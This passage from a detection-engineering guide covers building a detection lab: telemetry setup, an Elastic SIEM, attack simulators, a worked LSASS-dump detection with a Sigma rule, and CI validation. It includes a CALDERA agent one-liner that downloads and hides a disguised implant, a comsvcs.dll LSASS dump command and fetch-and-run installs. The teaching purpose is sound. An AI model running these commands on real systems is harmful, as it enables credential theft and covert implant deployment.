| **Security Onion 2** | Deployable SIEM/NSM distro | Elastic + Suricata + Zeek + Stenographer + Playbook | The analysis plane itself; enterprise-grade NSM | Not a target estate — you supply the victims |
| **Splunk Attack Range** | Cloud or local range with attack automation | Splunk + Sysmon; integrates Atomic + PurpleSharp | Splunk-centric detection dev with built-in attacks | Splunk-opinionated |
| **GOAD** (Game of Active Directory) | Multi-domain vulnerable AD forest | You add telemetry | AD attack-path and identity detection | Deliberately vulnerable — offense-first, add sensors yourself |
| **Ludus** | IaC range platform on Proxmox | You compose roles (Sysmon, Elastic, etc.) | Repeatable team ranges, templated builds | Requires a Proxmox host |
| **BlueTeam.Lab** | AD + WEF + HELK/Elastic via Terraform+Ansible | Elastic + Winlogbeat + Sysmon | Blue-team-first, detection-focused estate | Azure-oriented |
| **Microsoft Sentinel Training Lab** | Sentinel workspace with pre-ingested attack data | Sentinel (KQL) | Practising KQL detections without building infra | Cloud only; static data |

**DetectionLab from scratch** is still the fastest way to a complete endpoint-and-network lab, and reading its provisioning scripts is a free course in lab automation:

```bash
git clone https://github.com/clong/DetectionLab.git
cd DetectionLab/Vagrant
# Read scripts before running — they install real offensive tooling
vagrant up logger    # Splunk + Fleet + Zeek + Suricata + Guacamole
vagrant up dc        # Windows DC with Sysmon, WEF, osquery, Velociraptor
vagrant up wef       # Windows Event Forwarder
vagrant up win10     # Domain-joined workstation
```

```
==> logger: Running provisioner: shell...
    logger: [+] Installing Splunk...
    logger: [+] Configuring Splunk indexes (sysmon, osquery, zeek, suricata)...
    logger: [+] Downloading and installing Fleet osquery manager...
    logger: [+] Splunk web available at https://192.168.56.105:8000
==> dc: Running provisioner: shell...
    dc: [+] Promoting to Domain Controller windomain.local...
    dc: [+] Installing Sysmon with SwiftOnSecurity config...
    dc: [+] Configuring Windows Event Forwarding subscriptions...
```

**The honest recommendation:** use a framework to *learn the shape* of a good lab and to get a working analysis plane quickly (Security Onion is excellent for this), but hand-build your *target estate* with the Vagrant + Ansible pattern from Part 3. You learn far more from wiring the telemetry yourself, and you end up with a lab you can actually modify. A framework you cannot modify is a framework you will outgrow the first time you need to test something its author did not anticipate.



---

## Part 5: The Telemetry Plane — Making Hosts Talk

A target that does not emit is a target you cannot detect on. The telemetry plane is where most "we have no coverage" problems actually live, and a lab is where you prove your sensors are configured correctly *before* you trust a rule that depends on them.

### Windows: the four pillars

1. **Sysmon** — the richest free endpoint sensor. You installed it in Part 3. The events that carry most detection value:

| Event ID | Meaning | Primary detection value |
|---|---|---|
| 1 | Process creation | Command lines, hashes, parent-child chains — the backbone of execution detection |
| 3 | Network connection | Process-to-destination mapping; C2 and lateral movement |
| 7 | Image loaded | DLL side-loading, unsigned module loads |
| 8 | CreateRemoteThread | Classic process injection |
| 10 | ProcessAccess | LSASS credential access (`GrantedAccess` masks) |
| 11 | File create | Dropper artefacts, ransomware file writes |
| 12/13/14 | Registry | Persistence via Run keys, service creation |
| 22 | DNS query | Beacon domains, DGA, DNS tunnelling |
| 25 | Process tampering | Process hollowing / herpaderping |

2. **Windows Security auditing** — Sysmon does not replace the native Security log. You must enable an **advanced audit policy** to get the identity events that matter: 4624/4625 (logon), 4672 (special privileges), 4688 (process creation with command line — enable the separate GPO for command line auditing), 4768/4769 (Kerberos TGT/TGS — Kerberoasting), 5140/5145 (file share access), 4698 (scheduled task), 7045 (service install).

3. **PowerShell logging** — three distinct settings, all needed: Module Logging (4103), **Script Block Logging (4104 — the single most valuable PowerShell event)**, and Transcription. Enable via GPO:

```powershell
# On the DC, as a starting point (production uses GPO, not local registry)
$base = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell"
New-Item  "$base\ScriptBlockLogging" -Force | Out-Null
Set-ItemProperty "$base\ScriptBlockLogging" -Name EnableScriptBlockLogging -Value 1
New-Item  "$base\ModuleLogging" -Force | Out-Null
Set-ItemProperty "$base\ModuleLogging" -Name EnableModuleLogging -Value 1
Set-ItemProperty "$base\ModuleLogging\ModuleNames" -Name '*' -Value '*' -Force
```

4. **The shipper** — something must move these logs off the host. Options: Elastic Agent / Winlogbeat, Splunk Universal Forwarder, or native Windows Event Forwarding (WEF) to a collector. In a lab, Elastic Agent enrolled in Fleet is the least painful.

### Linux: auditd and the eBPF successors

On `SRV01`, the native audit trail is **auditd**, driven by rules in `/etc/audit/rules.d/`:

```bash
# /etc/audit/rules.d/detection.rules — a minimal detection-grade ruleset
-w /etc/passwd -p wa -k identity            # writes to passwd
-w /etc/shadow -p wa -k identity
-w /etc/sudoers -p wa -k priv_esc
-w /etc/crontab -p wa -k persistence
-a always,exit -F arch=b64 -S execve -k exec    # every process execution
-a always,exit -F arch=b64 -S ptrace -k inject  # process injection / debugging
```

```bash
sudo augenrules --load
sudo auditctl -l | head -5
```

```
-w /etc/passwd -p wa -k identity
-w /etc/shadow -p wa -k identity
-w /etc/sudoers -p wa -k priv_esc
-a always,exit -F arch=b64 -S execve -F key=exec
-a always,exit -F arch=b64 -S ptrace -F key=inject
```

For richer, lower-overhead telemetry the modern choice is an eBPF sensor — **Sysmon for Linux** (yes, it exists), or the community **Elastic Defend** endpoint, or `tetragon`/`falco`. In a lab, ship auditd via Filebeat's `auditd` module and layer Sysmon-for-Linux on top when you need process-tree fidelity.

### Network: Zeek and Suricata on a span port

Endpoint telemetry misses the wire. Two sensors cover it, and they are complementary:

- **Zeek** — a protocol analyser that produces structured connection logs (`conn.log`, `dns.log`, `http.log`, `ssl.log`, `x509.log`). It answers "who talked to whom, over what protocol, for how long." This is where JA3/JA4 fingerprints and beacon-timing analysis live.
- **Suricata** — a signature IDS/IPS that matches traffic against rules (ET Open, Talos). It answers "did this traffic match a known-bad pattern."

In a lab you feed both from a **mirrored/promiscuous interface**. In VirtualBox, enable promiscuous mode on the sensor's adapter (`Allow All`); in Proxmox, mirror the bridge. Verify Zeek is actually seeing traffic:

```bash
sudo zeek -i eth1 local
cat conn.log | zeek-cut id.orig_h id.resp_h id.resp_p proto duration | head -5
```

```
10.10.10.21   10.10.10.99   53    udp   0.001
10.10.10.21   10.10.10.99   443   tcp   45.320
10.10.10.21   10.10.10.10   445   tcp   2.115
10.10.10.21   10.10.10.10   88    tcp   0.045
```

That `10.10.10.21 -> 10.10.10.99:443` flow lasting 45 seconds is your simulated beacon from Part 2 showing up on the wire — proof the network sensor works before you write a single beacon-detection rule.



---

## Part 6: The SIEM Plane and Ingest Verification

The most-skipped step in lab building, and the one that invalidates the most rules, is **verifying that events actually arrive with the fields your rules expect.** A rule is only as good as the data it runs on.

### Standing up Elastic quickly

A single-node Elastic + Kibana for a lab, via Docker on the `siem` host:

```bash
# On siem (10.10.10.50)
curl -fsSL https://get.docker.com | sh
docker network create elastic
docker run -d --name es --net elastic -p 9200:9200 \
  -e "discovery.type=single-node" -e "xpack.security.enabled=true" \
  -e "ELASTIC_PASSWORD=labpassword" \
  -m 6g docker.elastic.co/elasticsearch/elasticsearch:8.14.1
docker run -d --name kibana --net elastic -p 5601:5601 \
  docker.elastic.co/kibana/kibana:8.14.1
```

Then enrol the Windows hosts' Elastic Agents into Fleet with the Windows and Sysmon integrations. Confirm data is landing:

```bash
curl -s -u elastic:labpassword "http://10.10.10.50:9200/_cat/indices?v" | grep -E "logs-windows|logs-sysmon"
```

```
green open .ds-logs-windows.sysmon_operational-default-2027.03.07  8.2mb  4213 docs
green open .ds-logs-windows.powershell_operational-default        1.1mb   402 docs
green open .ds-logs-system.security-default-2027.03.07            12.4mb  9981 docs
```

### The ingest-verification ritual — run this for every log source

Before writing a rule that depends on a field, prove the field exists and is populated. This three-question check has saved more detections than any tuning ever did:

1. **Is the event arriving at all?** Query the index for the event type over the last 15 minutes.
2. **Is the field present and named what I think?** ECS says `process.command_line`; the raw Sysmon field is `CommandLine`. Which one is in your index depends on your pipeline.
3. **Is the field *populated*, not empty or truncated?** Command lines over a certain length are silently truncated by some pipelines; base64 blobs get cut mid-string.

```
# Kibana Dev Tools — does Sysmon process creation arrive with a command line?
GET .ds-logs-windows.sysmon_operational-*/_search
{
  "size": 1,
  "query": { "bool": { "filter": [
    { "term": { "event.code": "1" } },
    { "range": { "@timestamp": { "gte": "now-15m" } } }
  ]}},
  "_source": ["process.name","process.command_line","process.parent.name","host.name"]
}
```

```json
{
  "hits": { "total": { "value": 214 },
    "hits": [{ "_source": {
      "host":    { "name": "ws01" },
      "process": {
        "name": "powershell.exe",
        "command_line": "powershell.exe -nop -w hidden -enc SQBFAFgA...",
        "parent": { "name": "explorer.exe" }
      }
    }}]
  }
}
```

If `process.command_line` had come back missing or empty, **every command-line-based rule you own would silently never fire** — and you would only discover it during an incident. This is the failure mode the lab exists to prevent.

### A field-mapping reference to keep on the wall

| Concept | Raw Sysmon | ECS (Elastic) | Splunk CIM | Sentinel |
|---|---|---|---|---|
| Process name | `Image` | `process.executable` | `process` / `process_name` | `NewProcessName` |
| Command line | `CommandLine` | `process.command_line` | `process` | `CommandLine` |
| Parent image | `ParentImage` | `process.parent.executable` | `parent_process` | `ParentProcessName` |
| Hash (SHA256) | `Hashes` | `process.hash.sha256` | `process_hash` | `SHA256` |
| Dest IP | `DestinationIp` | `destination.ip` | `dest_ip` | `DestinationIP` |
| User | `User` | `user.name` | `user` | `Account` |

The rule that follows from this table: **write detections against the normalised schema (ECS/CIM), not raw field names**, so a pipeline change does not silently break every rule. The lab is where you confirm your normalisation actually produces these fields.

---

## Part 7: Attack Simulation Tooling — From Scratch

You now have targets that emit and a SIEM that stores. The adversary plane provides the *stimulus*. Four tools cover the spectrum from single-technique atoms to full adversary emulation. Learn each from zero.

### Atomic Red Team — the technique unit test

**What it is:** an open-source library (from Red Canary) of small, precise tests — "atomics" — each mapped to exactly one ATT&CK technique. An atomic is a few lines of shell or PowerShell that perform *just* that technique and nothing else, so the telemetry it produces is clean and attributable. Think of each atomic as a unit test for one detection.

**Why it exists:** to make "test whether we detect T1059.001" a one-line command rather than a manual exercise.

**Install on a Windows target (in the lab only):**

```powershell
# Invoke-AtomicRedTeam is the PowerShell execution framework for the atomics
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing)
Install-AtomicRedTeam -getAtomics -Force
Import-Module "C:\AtomicRedTeam\invoke-atomicredteam\Invoke-AtomicRedTeam.psd1" -Force
```

**Core workflow** — inspect, check prerequisites, run, clean up:

```powershell
# Show what a technique's atomics will do — read before you run
Invoke-AtomicTest T1059.001 -ShowDetailsBrief
```

```
T1059.001-1 Mshta executes JavaScript
T1059.001-2 Encoded command execution
T1059.001-3 PowerShell download cradle
```

```powershell
# Resolve any prerequisites (downloads sample files etc.)
Invoke-AtomicTest T1059.001 -GetPrereqs
# Run test #2 (encoded command)
Invoke-AtomicTest T1059.001 -TestNumbers 2
# ALWAYS clean up afterwards so the next test starts clean
Invoke-AtomicTest T1059.001 -TestNumbers 2 -Cleanup
```

```
Executing test: T1059.001-2 Encoded command execution
Done executing test: T1059.001-2 Encoded command execution
```

That single `-TestNumbers 2` run should produce a Sysmon EID 1 with an `-enc` command line and a PowerShell 4104 script-block event. If it does not appear in your SIEM, you have found a telemetry gap, not a detection gap — and you found it in ten seconds.

**Key flags:**

- `-ShowDetailsBrief` / `-ShowDetails` — dry-read what a test does before running it.
- `-GetPrereqs` — download/prepare anything the test needs.
- `-TestNumbers` / `-TestGuids` — run specific atomics rather than all of them.
- `-Cleanup` — reverse the test's changes. **Non-negotiable between runs.**
- `-CheckPrereqs` — verify without executing.

### CALDERA — automated adversary emulation

**What it is:** a MITRE framework that chains techniques into full **operations** driven by an agent-based model. Where Atomic runs one technique, CALDERA runs an *adversary profile* — a sequence of abilities (each an ATT&CK technique) executed by agents on compromised hosts, complete with planners that decide what to do next based on what the previous step discovered.

**Architecture:** a **server** (the C2/brain) plus **agents** (called `sandcat`/`54ndc47`, or `manx`, `ragdoll`) deployed on victims. Abilities are ATT&CK-mapped commands; **adversaries** are ordered collections of abilities; **planners** sequence them; **facts** are the data agents collect and feed forward.



**Install and run the server (on the Kali/attacker VM):**

```bash
git clone https://github.com/mitre/caldera.git --recursive
cd caldera
pip3 install -r requirements.txt
python3 server.py --insecure --build
# Web UI on http://0.0.0.0:8888  (default creds red/admin in --insecure mode)
```

**Deploy an agent on the victim** — the UI generates the one-liner; on `WS01`:

```powershell
$server="http://10.10.10.5:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```

Then start an operation against an adversary profile (e.g. "Discovery" or a custom Kerberoasting chain) and watch each ability fire, each producing telemetry you correlate against your rules. CALDERA is the tool for testing **correlation and multi-step** detections — the ones that only fire when discovery is followed by credential access is followed by lateral movement.

### PurpleSharp and Stratus Red Team — specialised emulators

**PurpleSharp** is a C# tool purpose-built to generate **Windows Active Directory attack telemetry** — Kerberoasting, DCSync, password spraying, over-pass-the-hash — with precise control, ideal for AD-focused detection testing:

```powershell
# Simulate Kerberoasting + a scheduled-task persistence, generating clean AD telemetry
.\PurpleSharp.exe playbook -p playbook_kerberoast.json
```

**Stratus Red Team** (from DataDog) is "Atomic Red Team for the cloud" — it detonates cloud-native attacker techniques against AWS/Azure/GCP/Kubernetes so you can test cloud detections:

```bash
stratus list --platform aws | head -5
stratus warmup aws.credential-access.ec2-get-password-data
stratus detonate aws.credential-access.ec2-get-password-data
stratus cleanup aws.credential-access.ec2-get-password-data
```

```
aws.credential-access.ec2-get-password-data   Retrieve EC2 Password Data
aws.defense-evasion.cloudtrail-stop           Stop CloudTrail Trail
aws.persistence.iam-backdoor-user             Create an IAM backdoor user
```

| Tool | Scope | Granularity | Best for |
|---|---|---|---|
| **Atomic Red Team** | Endpoint (Win/Lin/mac) | Single technique | Detection unit tests, telemetry gap-finding |
| **CALDERA** | Endpoint, chained | Full operation | Correlation rules, adversary emulation, purple team |
| **PurpleSharp** | Windows AD | Configurable playbooks | Identity/AD detection testing |
| **Stratus Red Team** | Cloud (AWS/Azure/GCP/K8s) | Single technique | Cloud detection testing |
| **CmdPlaybook / MITRE Engenuity** | Threat-actor emulation | Full campaign | Replaying a specific named adversary end to end |

---

## Part 8: Hands-On Lab — Detonate, Detect, Measure

This is the full loop the whole chapter builds toward. The goal: take one technique, detonate it, trace the telemetry, confirm the detection, and — critically — measure whether it fired for the *right reason*. We use **T1003.001 — OS Credential Dumping: LSASS Memory**, the technique behind most real intrusions.

### Step 0 — Baseline and snapshot

```bash
# From the host, confirm isolation then snapshot every VM
VBoxManage showvminfo ws01 --machinereadable | grep -E "^nic[0-9]="
```

```
nic1="hostonly"
nic2="none"
```

Adapter 1 is host-only, adapter 2 is disabled. Good. Snapshot:

```bash
for vm in dc01 ws01 siem; do vagrant snapshot save $vm pre-lsass-test; done
```

### Step 1 — Detonate the technique

On `WS01`, run the Atomic for LSASS dumping via `comsvcs.dll` (a common living-off-the-land variant):

```powershell
Invoke-AtomicTest T1003.001 -ShowDetailsBrief
```

```
T1003.001-1 Dump LSASS.exe using ProcDump
T1003.001-2 Dump LSASS.exe using comsvcs.dll and rundll32
T1003.001-3 Dump LSASS.exe using direct system calls (via a custom tool)
T1003.001-6 Offline Credential Theft With Mimikatz
```

```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 2 -GetPrereqs
Invoke-AtomicTest T1003.001 -TestNumbers 2
```

```
Executing test: T1003.001-2 Dump LSASS.exe using comsvcs.dll
[+] rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump 672 C:\Windows\Temp\lsass.dmp full
Done executing test: T1003.001-2 Dump LSASS.exe using comsvcs.dll
```

### Step 2 — Trace the raw telemetry

Two events should have been generated. Check them at the source first, then in the SIEM:

```powershell
# On WS01, confirm Sysmon EID 10 (ProcessAccess targeting lsass)
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational';Id=10} -MaxEvents 1 |
  Format-List TimeCreated, Message
```

```
TimeCreated : 3/7/2027 9:14:52 AM
Message     : Process accessed:
              SourceImage: C:\Windows\System32\rundll32.exe
              TargetImage: C:\Windows\system32\lsass.exe
              GrantedAccess: 0x1FFFFF
              CallTrace: C:\Windows\SYSTEM32\ntdll.dll+9d3e4|...|comsvcs.dll+...
```

`GrantedAccess: 0x1FFFFF` is `PROCESS_ALL_ACCESS` — the mask that reads LSASS memory. This is the field a good rule keys on.

### Step 3 — Confirm the detection in the SIEM

```
GET .ds-logs-windows.sysmon_operational-*/_search
{
  "query": { "bool": { "filter": [
    { "term": { "event.code": "10" } },
    { "wildcard": { "winlog.event_data.TargetImage": "*lsass.exe" } },
    { "range": { "@timestamp": { "gte": "now-10m" } } }
  ]}},
  "_source": ["process.name","winlog.event_data.GrantedAccess","winlog.event_data.CallTrace"]
}
```

```json
{ "hits": { "total": { "value": 1 }, "hits": [{ "_source": {
  "process": { "name": "rundll32.exe" },
  "winlog": { "event_data": {
    "GrantedAccess": "0x1FFFFF",
    "CallTrace": "...|comsvcs.dll+...|rundll32.exe+..."
  }}}}]}}
```

The event arrived. Now verify the **rule** actually fires. This is the Sigma rule that should catch it:

```yaml
title: LSASS Memory Access via Suspicious Caller
id: a1b2c3d4-0007-4a2b-9f10-lab00000010
status: experimental
logsource:
    product: windows
    category: process_access
detection:
    selection:
        TargetImage|endswith: '\lsass.exe'
        GrantedAccess:
            - '0x1010'
            - '0x1410'
            - '0x1438'
            - '0x143a'
            - '0x1fffff'
    filter_legit:
        SourceImage|endswith:
            - '\wmiprvse.exe'
            - '\MsMpEng.exe'
    condition: selection and not filter_legit
level: high
```

Convert and deploy, then confirm an alert was raised:

```bash
sigma convert -t elasticsearch -p ecs_windows rules/lsass_access.yml
# Deploy as an Elastic detection rule, then check the alerts index
curl -s -u elastic:labpassword \
  "http://10.10.10.50:9200/.alerts-security.alerts-default/_search?q=kibana.alert.rule.name:*LSASS*&size=1" \
  | jq '.hits.total.value'
```

```
1
```

**One alert. The loop is closed:** technique detonated → raw event confirmed → normalised field verified → rule fired → alert generated. Every link in that chain was a place it could have silently broken, and you verified each one.

### Step 4 — The negative test (the step everyone skips)

A rule that fires on the attack is half a rule. Prove it does **not** fire on benign activity, or you have shipped a false-positive generator. Run a legitimate LSASS access:

```powershell
# Legitimate: Windows Defender (MsMpEng) touches lsass constantly. Simulate a benign reader.
# Also run Task Manager's process dump, which is a legitimate admin action.
Invoke-AtomicTest T1003.001 -TestNumbers 2 -Cleanup   # first clean up the malicious test
# Then generate benign LSASS access and re-query the alerts index
```

Confirm the alert count did **not** increase for the benign case. If your `filter_legit` clause is correct, `MsMpEng.exe` accessing LSASS produces an EID 10 but no alert. If it does alert, you have found the tuning work to do — in the lab, before it pages an analyst at 3am.

### Step 5 — Restore

```bash
for vm in dc01 ws01 siem; do vagrant snapshot restore $vm pre-lsass-test; done
```

Back to a pristine baseline, ready for the next technique. This detonate-detect-measure-restore cycle *is* the job.

---

## Part 9: A Detection Validation Methodology

Running one atomic and eyeballing one alert is a demo, not a methodology. To validate coverage at scale you need a repeatable process that produces a verdict per technique. The discipline borrows directly from software testing: every detection is a function, every technique is a test case, and the result is pass/fail with evidence.

### The four validation outcomes

For any (technique, detection) pair, a test lands in exactly one bucket:

| Outcome | Meaning | What it tells you |
|---|---|---|
| **True Positive** | Attack ran, telemetry present, rule fired | The detection works — keep it, regression-test it |
| **Telemetry Gap** | Attack ran, but no relevant event was generated/collected | Sensor problem, not a detection problem — fix the log source |
| **Detection Gap** | Attack ran, telemetry present, but no rule matched | Write or fix a rule |
| **False Positive (from negative test)** | Benign activity fired the rule | Tune the rule before it burns analysts |



The distinction between a **telemetry gap** and a **detection gap** is the single most valuable output of the whole exercise, because the two have completely different owners and fixes. Teams that skip validation conflate them and "write more rules" to fix problems that were actually missing log sources — rules that can never fire.

### Encoding tests as code

A detection test is a small document: technique, how to detonate, what to expect, how to clean up. Encode it so a machine can run the whole suite:

```yaml
# tests/T1003.001-lsass-comsvcs.yml
technique: T1003.001
name: LSASS dump via comsvcs.dll
detonate:
  platform: windows
  atomic: T1003.001
  test_number: 2
expected_telemetry:
  - source: sysmon
    event_code: 10
    field: winlog.event_data.TargetImage
    contains: lsass.exe
expected_detection:
  rule_name: "LSASS Memory Access via Suspicious Caller"
  min_alerts: 1
  max_latency_seconds: 120
negative_test:
  description: MsMpEng.exe accessing lsass must NOT alert
  expect_alerts: 0
cleanup: true
```

A test runner reads these, orchestrates the detonation on the target, polls the SIEM for the expected telemetry and alert, applies the negative test, and emits a verdict:

```
$ python3 validate.py --suite tests/ --target ws01 --siem 10.10.10.50

[T1003.001] detonating (atomic #2) ....... done
[T1003.001] telemetry: sysmon EID 10 targeting lsass ..... PRESENT
[T1003.001] detection: rule fired in 8s (<120s budget) .... PASS
[T1003.001] negative: benign MsMpEng access ............... 0 alerts  PASS
[T1003.001] VERDICT: TRUE POSITIVE

[T1547.001] detonating (Run key persistence) ............. done
[T1547.001] telemetry: sysmon EID 13 registry ............ PRESENT
[T1547.001] detection: no matching rule .................. FAIL
[T1547.001] VERDICT: DETECTION GAP

Summary: 1 pass, 1 detection gap, 0 telemetry gaps, 0 false positives
```

### Emulation cadence

Validation is not a one-time event — detections rot, so the suite must run on a schedule:

- **On every rule change** — the CI gate (Part 11). No rule merges without passing its own test.
- **Nightly / weekly** — full atomic suite against the lab, catching telemetry drift from agent or OS updates.
- **Quarterly** — full adversary emulation (CALDERA, an APT profile) to test correlation and end-to-end coverage, mirroring how a real intrusion unfolds rather than isolated atoms.

---

## Part 10: Honest Coverage Scoring with DeTT&CT and Navigator

Once you can validate individual detections, the question becomes organisational: **what is our coverage, honestly, across the whole ATT&CK matrix?** The trap is scoring coverage by counting rules ("we have 400 detections!"), which measures effort, not capability. Two tools score it honestly.

### ATT&CK Navigator — the heatmap

Navigator renders the ATT&CK matrix as a colourable grid driven by a JSON **layer** file. You generate a layer where each technique's colour and score come from *validated* results — green for tested-and-passing, yellow for a rule exists but is untested, red for a known gap.

```json
{
  "name": "Validated Coverage (lab-tested)",
  "versions": { "attack": "15", "navigator": "4.9", "layer": "4.5" },
  "domain": "enterprise-attack",
  "techniques": [
    { "techniqueID": "T1003.001", "score": 100, "color": "#2ecc71",
      "comment": "TP: comsvcs+procdump variants tested, negative test passes" },
    { "techniqueID": "T1547.001", "score": 25, "color": "#e74c3c",
      "comment": "DETECTION GAP: Run-key persistence telemetry present, no rule" },
    { "techniqueID": "T1558.003", "score": 60, "color": "#f1c40f",
      "comment": "Rule exists (Kerberoasting) but NOT lab-validated" }
  ],
  "gradient": { "colors": ["#ff0000","#ffff00","#00ff00"], "minValue": 0, "maxValue": 100 }
}
```

Generate layers programmatically from your validation output using `mitreattack-python` (introduced in Chapter 5), so the heatmap is a *product of tests*, not a self-assessment:

```python
from mitreattack.navlayers import Layer, Technique
import json, csv

techniques = []
for row in csv.DictReader(open("validation_results.csv")):
    score = {"TRUE POSITIVE":100,"UNTESTED":60,"DETECTION GAP":25,"TELEMETRY GAP":10}[row["verdict"]]
    techniques.append(Technique(row["technique"], score=score, comment=row["verdict"]))

layer = Layer()
layer.from_dict({"name":"Validated Coverage","domain":"enterprise-attack",
                 "techniques":[t.get_dict() for t in techniques]})
open("coverage.json","w").write(layer.to_json())
```

### DeTT&CT — scoring data-source quality, not just rule presence

DeTT&CT (from the Dutch NCSC-adjacent community) scores the thing Navigator alone cannot: **the quality and coverage of your data sources**. A rule for LSASS access is worthless if Sysmon EID 10 is only collected from 40% of endpoints. DeTT&CT models data-source *availability*, *completeness*, *timeliness* and *retention*, then derives which techniques you can *possibly* detect before you even talk about rules.

```bash
pip install dettect
# Score data-source coverage from a YAML describing what you actually collect
python dettect.py ds -f data_sources.yaml --layer output/ds_coverage.json
# Score detection coverage and diff it against data-source coverage
python dettect.py d -f detections.yaml --layer output/detection_coverage.json
```

The insight DeTT&CT forces: **your detection coverage can never exceed your data-source coverage.** Overlay the two layers and any technique that is "green for detection" but "red for data source" is a lie — the rule exists but the data to run it does not. The lab is where you make the data-source layer honest, because you can *verify* collection rather than assume it.



Only a technique that is green in all three layers — data collected, rule exists, rule validated in the lab — earns the right to be called "covered". That three-way agreement is the honest number, and it is always lower and far more useful than a rule count.

---

## Part 11: Detection-as-Code — The CI Pipeline

The final maturity step turns everything above into an automated gate. Detections live in a git repository; the lab is a test target; a CI pipeline runs the validation suite on every change. This is **detection-as-code**, and it is what separates a detection *program* from a folder of rules.



A representative pipeline (GitHub Actions syntax, runner with access to the lab):

```yaml
name: detection-ci
on: [pull_request]
jobs:
  validate:
    runs-on: [self-hosted, lab-runner]
    steps:
      - uses: actions/checkout@v4

      - name: Lint Sigma rules (schema + logsource)
        run: |
          pip install sigma-cli pySigma
          sigma check rules/

      - name: Unit test — rule matches known-bad sample, ignores known-good
        run: |
          # Each rule ships with a sample event that MUST match
          # and a benign event that MUST NOT — pure offline, fast
          python tests/unit_match.py rules/ samples/

      - name: Deploy candidate rules to lab SIEM
        run: python deploy.py --env lab --rules rules/

      - name: Detonate + validate in lab
        run: python validate.py --suite tests/ --target ws01 --siem 10.10.10.50 --fail-on gap

      - name: Publish coverage layer artifact
        run: python gen_navigator_layer.py validation_results.csv coverage.json
```

Two tiers of test keep the pipeline fast *and* real:

1. **Offline unit tests** (milliseconds) — every rule ships with a captured known-bad event that must match and a known-good event that must not. Runs on every push, no lab needed. This catches typos and logic errors instantly.
2. **Lab integration tests** (minutes) — actual detonation on a live target, for rules touched by the PR. Slower, gated behind the unit tests, but the only thing that proves the rule fires on *real* telemetry.

**The payoff:** a rule cannot reach production unless it (a) parses, (b) matches its sample and rejects its benign sample, and (c) has fired on a real detonation in the lab with a clean negative test. That is a higher bar than most production detection content clears, and the lab is the component that makes the third check possible.

---

## Part 12: Safety, Hygiene, and Operating the Lab

A malware-detonation lab is a liability if run carelessly. These are the operational controls that keep it an asset.

### Snapshot discipline

- Take a `clean-baseline` snapshot immediately after building, before any tool touches the box.
- Snapshot before every detonation session; restore after.
- Never detonate on a VM you have not snapshotted — a contaminated baseline poisons every subsequent test's ground truth.
- Periodically rebuild from IaC entirely (`vagrant destroy && vagrant up`) — snapshots drift and accumulate cruft; the code is the real source of truth.

### Sample handling

- Store live samples **encrypted** (password-protected zip, password `infected` by convention) and never on the host filesystem unprotected.
- Transfer samples into the lab through a controlled one-way path (a read-only shared folder mounted only during transfer, then unmounted), never via clipboard or drag-drop.
- Treat every artefact a sample drops as live — do not copy `lsass.dmp` or a dropped payload back to your host to "look at it."

### Credential and identity hygiene

- Lab domain, usernames and passwords must be **unique** and never reused from anywhere real.
- The hypervisor host account is not the same as any work or personal account.
- Never join a lab machine to a real domain, and never point a lab agent at a production SIEM/EDR tenant.

### Cost and lifecycle (cloud labs)

- Pair every `terraform apply` with an automated `terraform destroy` (a scheduled job or a TTL tag) — an idle cloud lab is pure burn.
- Use spot/preemptible instances for detonation hosts; they are disposable by design.
- Tag every lab resource so a nightly script can find and reap anything past its TTL.

### The lab as an attack surface

**Red team note, turned defensive:** the lab itself is a high-value target. It holds offensive tooling, malware samples, and often domain-admin creds to a Windows forest. An attacker who compromises your *lab* gets a malware arsenal and a template of your detection logic (which tells them exactly what you can and cannot see). Keep the lab off any network path to production, patch the hypervisor, and do not run the lab management plane on your daily-driver workstation.

---

## Part 13: Detection & Defense Angle

Everything in this chapter *is* the defensive discipline, but it is worth consolidating how a lab changes the way each security role operates.

- **Detection engineer** — the lab converts detection writing from an act of faith into an act of evidence. No rule ships without a lab-verified true positive and a clean negative test. Coverage claims become measurements, not assertions.
- **SOC analyst / IR** — a lab is where you *practise the incident before it happens*. Detonate a ransomware simulator, then run your triage and containment playbook (Chapter 6) against the resulting alerts end to end. The muscle memory built in the lab is what makes a real 3am page routine instead of terrifying.
- **Threat hunter** — the lab is a hypothesis generator. Detonate a technique, study every artefact it leaves across endpoint, registry, network and identity logs, and turn the byproducts nobody wrote a rule for into new hunts. The lab teaches you what "normal" for an attack looks like so you can spot it in production noise.
- **Purple team** — the lab is the shared ground truth. Red detonates, blue measures, both look at the same telemetry, and the gap report writes itself. This is the fastest known way to raise real coverage.
- **Red team** — the same lab tests whether a technique or tooling variant evades a given telemetry/EDR configuration *before* burning it on a real engagement, and documents exactly what defensive artefacts a technique produces.

**Bug bounty / CTF connection:** the same disposable-VM discipline underpins malware-analysis CTF categories and blue-team CTFs (e.g. the Blue Team Village, DFIR-focused rooms), and the ability to stand up a domain quickly is directly transferable to AD-focused offensive labs like GOAD, HackTheBox Pro Labs, and CyberDefenders blue-team challenges — the muscle is identical, only the direction of the arrow changes.

The mindset shift the lab forces is the whole point: **coverage is not what you wrote, it is what you have proven.** A lab is the machine that turns the first into the second.

---

## Part 14: Final Revision / Summary

- A detection lab is the **test environment for detection content** — three planes: targets that emit telemetry, an analysis/SIEM plane that collects and searches it, and an adversary plane that supplies the stimulus.
- **Isolation is a safety system, built first.** Host-only lab LAN, no bridged adapter on detonation hosts, disabled clipboard/shared-folders, a simulated internet (INetSim/FakeNet-NG), and a `clean-baseline` snapshot before anything runs.
- **If it is not in code, it does not exist.** Vagrant/Terraform build the VMs; Ansible configures them; the whole lab rebuilds from git with `destroy && up`.
- **Telemetry is where coverage silently dies.** Sysmon (with an ATT&CK-tagged config), Windows advanced audit + PowerShell script-block logging, auditd/eBPF on Linux, Zeek+Suricata on a span port — and every source *verified* to arrive in the SIEM with the fields your rules expect.
- **Frameworks (DetectionLab, Security Onion, GOAD, Ludus, Attack Range) bootstrap the shape;** hand-build the estate to actually learn and to be able to modify it.
